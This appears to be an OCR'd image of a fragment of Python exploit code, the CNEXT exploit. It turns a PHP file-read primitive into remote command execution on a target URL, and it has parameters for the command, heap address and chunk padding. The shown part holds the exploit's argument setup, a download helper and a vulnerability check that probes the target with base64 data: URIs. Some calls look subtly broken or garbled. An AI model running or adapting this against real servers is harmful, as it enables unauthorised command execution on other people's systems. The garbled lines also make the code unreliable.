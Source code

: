 ```python
        
        response = self.session.get(file_path)
        data = response.content[6:]
        return data

    def data_decode(self, data:bytes)->bytes:
        data = data.decode('latin-1')
        return base64.decode(data + (4 - len(data) % 4) * '=')

@entry
@arg("url", "Target URL")
@arg("command", "Command to run on the system; limited to 0x140 bytes")
@arg("sleep", "Time to sleep to assert that the exploit worked. By default, 1.")
@arg("heap", "Address of the main zend_mm_heap structure.")
@arg(
    "pad",
    "Number of 0x100 chunks to pad with. If the website makes a lot of heap "
    "operations with this size, increase this. Defaults to 20.",
)
@dataclass
class Exploit:
    """CNEXT exploit: RCE using a file read primitive in PHP."""

    url: str
    command: str
    sleep: int = 1
    heap: str = None
    pad: int = 20

    def __post_init__(self):
        self.remote = Remote(self.url)
        self.log = logger("EXPLOIT")
        self.info = {}
        self.heap = self.heap and int(self.heap, 16)

    def check_vulnerable(self) -> None:
        """Checks whether the target is reachable and properly allows for the various
        wrappers and filters that the exploit needs.
        """
        
        def safe_download(path: str) -> bytes:
            try:
                return self.remote.download(path)
            except ConnectionError:
                failure("Target not [b]reachable[/] ?")
            

        def check_token(text: str, path: str) -> bool:
            result = safe_download(path)

            return len(set(result).intersection(set(text.encode()))) > 0

        text = tf.random.string(50).encode()
        base64 = b64(b'GIF89a' + text, misalign=True).decode()
        path = f"data:text/plain;base64,{base64}"
        
        result = safe_download(path)
        
        if len(set(result).intersection(set(text))) == 0:
            msg_failure("Remote.download did not return the test string")
            print("--------------------")
            print(f"Expected test string: {text}")
            print(f"Got: {result}")
```